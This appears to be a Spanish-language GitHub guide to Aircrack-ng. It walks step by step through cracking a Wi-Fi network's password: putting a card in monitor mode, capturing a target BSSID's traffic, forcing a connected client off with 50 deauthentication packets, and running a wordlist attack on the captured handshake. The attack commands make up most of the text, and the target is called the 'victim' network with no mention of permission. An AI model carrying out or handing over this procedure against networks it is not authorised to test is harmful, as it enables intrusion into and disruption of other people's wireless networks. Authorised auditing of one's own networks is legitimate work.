




# Guía de uso Aircrack-ng

<br>

<p align="center">

</p>

<br>

Aircrack-ng es una suite de programas que nos permitirán realizar auditorías inalámbricas Wifi a routers y puntos de acceso Wifi. 

En esta Guía aprenderás a como realizar una auditoría a una red wifi con una lista de
contraseñas.

<br>

## Requisitos

* Kali Linux

* Tarjeta de Wifi con modo monitor

<br>

## USO
Lo primero será iniciar el modo monitor de nuestra tarjeta con airmon-ng. Se recomienda estar en usuario
root

```
iwconfig 
airmon-ng 
airmon-ng start wlan0 
airmon-ng check kill
```

<br>



<br>

Luego iniciamos el escaneo de redes wifi que hay a nuestro alrededor.

```
airodump-ng wlan0
```

<br>



<br>

Ahora seleccionamos el canal de la red, luego agregamos un nombre para guardar el archivo de captura y por
último el BSSID de la red.

```
airodump-ng -c 6 -w auditoria-wifi --bssid 06:A1:51:9A:2F:2F wlan0
```

Como podemos observar solo 1 dispositivo está conectado a la red este dispositivo será la clave para poder
entrar a la red, lo primero que haremos será desconectar el dispositivo de la red. Primero seleccionamos el
número de veces que va a desautenticar el dispositivo luego seleccionamos el BSSID de la red y por último el
BSSID del dispositivo.

```
aireplay-ng -0 50 -a 06:A1:51:9A:2F:2F -c 2E:C7:CB:0E:98:C4 wlan0
```
<br>



<br>

Ahora la fase final será usar nuestro archivo de captura y nuestra lista de contraseñas para poder saber la
contraseña de la red. Ingresamos primero la ubicación de la lista de contraseñas luego el BSSID del al red y
por último el archivo de captura.

```
aircrack-ng -w /root/Hacking/Diccionarios/wifi.txt -b 06:A1:51:9A:2F:2F auditoriawifi-
01.cap
```
<br>



<br>

Como podemos ver hemos conseguido la contraseña de la red víctima, dependiendo la contraseña aircrackng
tardara en descifrar la contraseña de la red.